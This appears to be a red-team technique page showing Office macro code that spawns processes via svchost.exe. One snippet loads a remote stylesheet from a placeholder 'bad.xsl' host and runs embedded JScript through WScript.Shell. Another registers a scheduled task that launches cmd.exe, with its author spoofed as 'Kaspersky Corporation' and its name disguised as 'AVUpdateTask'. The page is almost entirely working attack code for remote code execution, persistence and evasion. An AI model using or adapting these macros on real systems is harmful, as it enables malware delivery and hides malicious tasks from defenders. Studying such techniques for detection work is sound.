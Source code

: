 ## Spawning via svchost.exe using XMLDOM

{% tabs %}
{% tab title="xmldom.vba" %}
```csharp
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://bad.xsl")
xml.transformNode xsl
```
{% endtab %}

{% tab title="bad.xsl" %}
```markup
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endtab %}
{% endtabs %}

![](<../../../.gitbook/assets/Screenshot from 2019-04-10 23-04-07.png>)

## Spawning via svchost.exe using Scheduled Task

{% code title="macro.vba" %}
```csharp
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Kaspersky Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\cmd.exe"
'Action.Arguments = "/c whoami"
Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```
{% endcode %}

